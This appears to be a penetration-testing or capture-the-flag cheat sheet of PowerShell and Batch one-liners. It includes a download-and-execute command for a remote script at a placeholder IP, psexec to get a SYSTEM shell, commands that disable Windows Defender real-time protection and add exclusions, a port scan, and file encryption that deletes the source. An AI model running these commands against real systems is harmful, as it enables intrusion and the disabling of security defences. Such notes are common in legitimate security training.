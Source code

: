 ```bash
# REGEXes

```

Batch
```powershell
dir /a /q # All files and owners (need q builtin)

```
PowerShell
```powershell
# Constrained Language Mode check
$ExecutionContext.SessionState.LanguageMode
# Utility
| Measure-Object -Line # Measure the amount of lines
| Ft -autosize -wrap # Prevent output truncation
| fl # Prevent output truncation


# File transfer and execute powershell
iex(iwr http://<ip>/x.ps1 -usebasicparsing)

# cmd.exe as SYSTEM
psexec.exe -i -s %SystemRoot%\system32\cmd.exe

# Streams
# Hidden Streams
Get-Item -Stream * <path>
# Alternate Data Streams
powershell -command "get-item <file> -stream *"
powershell -command "get-content <file> -stream root.txt"

# Inject .ps1 into a session
Invoke-Command -FilePath <script> -Sessions $sessions
Enter-PSSession -Session $sess


# Find files
# 

# Unzip
Expand-Archive <>
# Or 
Add-Type -assembly 'system.io.compression.filesystem';[io.compression.zipfile]::ExtractToDirectory("<archive path>","<target dir>")

# Disable Windows Defender
powershell.exe -exec bypass -command Set-MpPreference -DisableRealtimeMonitoring $true
# 
Add-MpPreference -ExclusionPath <path>

# Port Scan
22,53,80,443,445 | % { Test-Connection -ComputerName <ip> -Port $_ }

# Encrypt Files
# https://gallery.technet.microsoft.com/scriptcenter/EncryptDecrypt-files-use-65e7ae5d
$key = New-CryptographyKey -Algorithm AES  
# Encrypt the file 
Protect-File '.\secrets.txt' -Algorithm AES -Key $key -RemoveSource 
# Decrypt the file 
Unprotect-File '.\secrets.txt.AES' -Algorithm AES -Key $key -RemoveSource

```
